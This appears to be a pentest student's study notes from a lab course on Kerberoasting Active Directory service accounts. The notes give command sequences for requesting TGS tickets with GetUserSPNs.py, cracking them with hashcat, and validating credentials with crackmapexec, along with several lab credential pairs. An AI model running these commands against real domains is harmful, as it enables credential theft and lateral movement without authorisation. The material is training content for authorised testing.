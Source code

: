 Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments which targets `SPN`

_(SPN)_ is a unique identifier of a service instance. `[Kerberos authentication]` uses SPNs to associate a service instance with a service sign-in account


## Kerberoasting - Performing the Attack
- kali attack box > gained user cred part of domain > access in terms of the user pwned
- kali attack box > domain joined > get keytab file as root
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

----
if kerbroasting attack gained us set of cred its critical finding in our report
otherwise its medium risk but still must be added to the report

---

>> `We must also know which host in the domain is a Domain Controller so we can query it.`

---

#### GetUserSPNs.py
check-list:
```shell-session
GAOL: >> Queries target domain for SPNs that are running under a user account
```
>>`need a set of valid domain credentials and the IP address of a Domain Controller.`

```
authenticate to the Domain Controller with a 
cleartext password, 
NT password hash, 
Kerberos ticket
```
NOTE:
```
investigating the group membership of all accounts because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.
```
---
#### Listing SPN Accounts
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/wley

[SMB] NTLMv2-SSP Username : INLANEFREIGHT\wley <> transporter@4
```
#### Requesting all TGS Tickets
the ticket is encrypted using spn password hash
```bash
AhmaDb0x@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
#### Requesting a Single TGS ticket
```bash
AhmaDb0x@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/wley -request-user SAPService
```
#### to-output-file
```bash
AhmaDb0x@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

#### Cracking the Ticket Offline with Hashcat
```bash
AhmaDb0x@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

#### Testing Authentication against a Domain Controller
```bash
AhmaDb0x@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```


!SapperFi2 <> SAPService






